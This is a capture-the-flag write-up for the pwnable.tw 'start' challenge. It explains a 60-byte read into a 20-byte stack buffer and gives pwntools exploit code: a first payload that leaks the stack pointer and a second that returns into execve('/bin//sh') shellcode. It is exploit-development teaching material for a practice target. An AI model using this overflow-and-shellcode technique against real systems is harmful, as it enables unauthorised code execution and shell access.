

**Keyword: System Call, Shellcode**

**Challenge URL:** https://pwnable.tw/challenge/#1

### Case Identification
When you try to disassemble the the binary file, it doesn't have a `main` function which is commonly used in many C programs. 
```c
Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
```
In a standard C program, `_start` is provided by the C runtime and it sets up the environment before calling `main`. When there is no `main` symbol in the program, `_start` becomes the direct entry point for the operating system. It's common to use `_start` as the entry point when writing pure assembly.

So let's start by analyzing the `_start` symbol.



In general, here is the use of some registers in this challenge for making syscall (x86 assembly):

> 1. **al (lower 8 bits of eax):** stores syscall number. in x86 assembly `4` is for write and `3` is for read
> 2. **bl (lower 8 bits of ebx):** stores file descriptor. in x86 assembly, `0` for `stdin` and `1` for `stdout`.
> 3. **dl (lower 8 bits of edx):** length of the buffer in bytes

If you are still confused about those registers, make sure you have read the [following repository](https://github.com/W-zrd/Learn-Low-Level-Assembly#description) for more explanation.

Based on the image above, the program pushes the string "*Let's start the CTF:*" onto the stack (*20 bytes*) in reverse order. It then writes those 20-byte string to stdout. After writing this string, the program doesn't adjust the stack pointer (there's no `add esp, X` instruction before the read).

The read syscall then starts writing data to the stack at the same position where the original string was stored. This means that any input beyond 20 bytes will start overwriting the stack frame.

### Solution
The vulnerability occurs because the read operation can accept up to 60 bytes, but the available buffer space is only 20 bytes. Any input beyond 20 bytes will overwrite stack memory which can be used for leveraging our attack to control EIP register. But since there are no functions that potentially stores  flag, so **our main goal is to spawn interactive shell** by crafting shellcode.

```py
# 1st payload
payload = b"A"*20
payload += p32(0x08048087)
p.send(payload)

esp = unpack(p.read()[:4])
info("Leaked Address: " + hex(esp))
```

The first payload will be created to leak the stack pointer (ESP) value. When the function returns, it will jumps to `mov ecx, esp` instruction in address `0x08048087`. Since we go back to the write syscall, the program continues to write the value of ECX (containing ESP) to stdout.

In short, the first payload allows the exploit to determine the current stack address which is essential for accurately placing the shellcode in the next stage. This leaked address is then used to calculate where to place the actual shellcode. It ensures that the second payload can accurately jump to the shellcode.

```py
# 2nd payload
shellcode = asm(
    """
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
    """
)

payload = b"A"*20
payload += p32(esp+20)
payload += shellcode
```

For the second payload, we also need to add 20 bytes characters to reach the return address. But instead of returning to the original address, it returns to `esp+20` which points to the beginning of the shellcode. `esp+20` is calculated to point just after 20 byte characters and the 4-byte return address overwrite.

> Why do we need to return to `esp+20`?
> - `esp` is the leaked stack address from the first stage.
> - '+20' is an offset to point past the buffer and overwritten return address.
> - This new address will point to the start of the shellcode in memory.

The `20` in `esp+20` is crucial because it accounts for the exact size of the buffer plus the size of the return address, ensuring the jump lands at the start of the shellcode. Here is the [final script](exploit.py) to solve the challenge. 

